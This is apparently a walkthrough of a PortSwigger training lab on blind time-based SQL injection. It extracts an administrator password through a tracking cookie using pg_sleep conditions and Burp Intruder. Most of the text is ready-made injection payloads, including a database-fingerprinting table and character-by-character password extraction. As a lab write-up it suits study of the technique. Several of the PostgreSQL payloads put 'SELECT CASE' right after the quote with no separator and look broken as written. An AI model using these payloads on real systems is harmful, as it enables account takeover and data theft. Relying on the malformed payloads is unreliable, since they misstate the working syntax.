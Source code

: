 ## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

![poc_admin_user.png](../images/admin_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

![poc_final.png](../images/poc_final.png)

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.


<img src="../images/poc_final.png"  alt="poc_final.png"  width="500"  height="500">
